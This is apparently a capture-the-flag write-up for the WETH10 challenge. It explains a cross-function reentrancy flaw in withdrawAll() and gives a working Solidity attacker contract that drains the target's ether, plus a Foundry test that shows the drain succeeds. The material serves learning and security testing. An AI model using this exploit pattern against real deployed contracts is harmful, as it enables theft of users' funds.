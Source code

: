 # WETH10 CTF Challenge

## Vulnerability

The `withdrawAll()` function in WETH10 is vulnerable to reentrancy attacks because it does not provide the necessary protection even though it uses a reentrancy guard. The `nonReentrant` modifier is used to prevent the same function from being called again within the same transaction, but other functions like `ERC20._transfer()`, `ERC20.transfer()`, and `ERC20.transferFrom()` which are not protected by the `nonReentrant` modifier can still be used to perform reentrant attacks.

Here is the vulnerable function:

    function withdrawAll() external nonReentrant {
        Address.sendValue(payable(msg.sender), balanceOf(msg.sender));
        _burnAll();
    }

This function performs an external call, which can be used by an attacker contract to transfer tokens from their wallet before `_burnAll()` is called.

## Attacker steps

The attacker deploys a contract with an exploit() function which:

1. Calls `WETH10.deposit()` to deposit 1 ether
2. Calls `WETH10.withdrawAll()` to withdraw 1 ether
3. Sends ether to the attacker contract to trigger the `fallback()` function which transfers all WETH10 tokens in the contract to an external address owned by the attacker.
4. After the `fallback()` function returns, `WETH10._burnAll()` is called, which burns the token balance inside the attacker contract, but since all tokens have been transferred out, it burns none of them.
5. The attacker pulls back the tokens from the attacker contract.
6. The attacker repeats steps 2 to 5 until all tokens are drained.

## POC

### Attacker.sol

    pragma solidity ^0.8.0;

    import "./weth10.sol";

    contract Attacker {
        WETH10 public target;
        address public bob;

        constructor(address payable _target, address payable _bob) {
            target = WETH10(_target);
            bob = _bob;
        }

        fallback() external payable {
            target.transfer(bob, 1 ether);
        }

        function deposit(uint256 amount) public payable {
            target.deposit{value: (amount)}();
        }

        function withdrawAll() public {
            payable(msg.sender).transfer(address(this).balance);
        }

        function attack(uint256 amount) public {
            target.withdrawAll();
            target.transferFrom(bob, address(this), amount);
        }

        function exploit() external payable {
            deposit(1 ether);
            while ((address(target).balance) > 1 wei) {
                attack(1 ether);
            }
            withdrawAll();
        }
    }

### weth10.t.sol

    pragma solidity ^0.8.0;

    import "forge-std/Test.sol";
    import "../src/Counter.sol";
    import "../src/weth10.sol";
    import "../src/Attacker.sol";

    contract Weth10Test is Test {
        WETH10 public weth;
        Attacker public attacker;
        address owner;
        address bob;

        function setUp() public {
            weth = new WETH10();
            bob = makeAddr("bob");
            attacker = new Attacker(payable(address(weth)), payable(bob));

            vm.deal(address(weth), 10 ether);
            vm.deal(address(bob), 1 ether);
        }

        function testHack() public {
            assertEq(
                address(weth).balance,
                10 ether,
                "weth contract should have 10 ether"
            );

            vm.startPrank(bob);

            // hack time!
            weth.approve(address(attacker), 11 ether);
            attacker.exploit{value:1 ether}();

            vm.stopPrank();
                console.logUint(address(weth).balance);
                assertEq(address(weth).balance, 0, "empty weth contract");
                assertEq(bob.balance, 11 ether, "player should end with 11 ether");
            }
        }

